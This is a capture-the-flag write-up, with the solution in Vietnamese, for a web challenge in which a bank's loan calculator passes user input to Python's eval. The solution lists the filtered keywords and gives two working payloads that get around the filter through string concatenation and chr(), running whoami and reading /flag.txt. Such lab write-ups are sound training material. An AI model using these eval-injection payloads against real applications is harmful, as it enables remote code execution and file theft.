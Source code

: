 # 3v@l

Web, 100 points

## Description:

> CABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

## Hint:

> 1.  You might need encoding or dynamic construction to bypass restrictions.
> 2.  The flag file is /flag.txt
> 3.  You might need encoding or dynamic construction to bypass restrictions.

## Solution:

Đây là 1 thử thách khá đơn giản, đọc đề bài thì ta cũng biết cách tấn công là thực thi mã từ xa RCE đặc biết là bypass bỏ qua được regex

Thử 1 lúc các payload thì có thể biết được hệ thống đã chặn 1 số từ nhạy cảm như `os, shell, ls, cat, /`. Nhưng không có vấn đề gì khi ta có thể sử dụng nối chuỗi

```
__import__('o' + 's').popen('w' + 'h' + 'o' + 'a' + 'm' + 'i').read()
```

Chúng ta đã bypass thành công khi hệ thống trả về kết quả là **app**

Vì biết được flag ở file **/flag.txt** nên ta có thể sử dụng ngay payload này để đọc flag

```
__import__('o' + 's').popen('c' + 'a' + 't ' + chr(47) + 'f' + 'l' + 'a' + 'g' + '.' + 't' + 'x' + 't').read()
```
